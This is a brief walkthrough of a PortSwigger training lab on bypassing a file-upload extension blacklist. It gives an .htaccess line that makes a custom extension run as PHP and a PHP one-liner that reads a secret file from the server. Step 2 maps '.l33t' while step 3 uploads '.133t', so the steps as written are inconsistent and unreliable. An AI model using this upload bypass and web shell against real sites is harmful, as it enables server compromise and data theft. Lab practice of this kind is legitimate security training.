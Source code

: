 # Web shell upload via extension blacklist bypass

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

1. Upload `.php` file --> blocked

2. Upload `.htaccess` file with content: `AddType application/x-httpd-php .l33t` to overwrite the config in upload folder

3. Upload `test.133t` with content: `<?php echo file_get_contents('/home/carlos/secret'); ?>` to get the flag.

# passs

